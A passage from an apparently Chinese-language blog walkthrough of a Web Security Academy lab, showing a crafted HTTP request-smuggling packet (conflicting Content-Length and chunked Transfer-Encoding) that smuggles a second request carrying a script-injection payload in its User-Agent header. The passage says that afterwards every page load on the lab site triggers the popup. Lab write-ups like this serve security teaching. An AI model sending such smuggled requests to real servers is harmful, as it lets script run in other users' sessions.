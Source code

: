 [![](assets/1698897445-32eb020d4c912df7f1feb541706479a9.png)](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191124235543.png)

我们可以构造以下数据包，只要发送一次

```bash
POST / HTTP/1.1
Host: ac811f011e27d43b80301693005a0007.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=iSxMvTrkiVN2G5N7EF7MTKgXGRE6A5xZ
Upgrade-Insecure-Requests: 1
Content-Length: 150
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: "><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```

然后我们随便访问该站任何页面都会被弹窗了，因为我们的请求被嵌入到了上面的第二个请求当中：

[![](assets/1698897445-ba6272ed02471cbbeec8d8ef6186bc5a.png)](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191125000410.png)
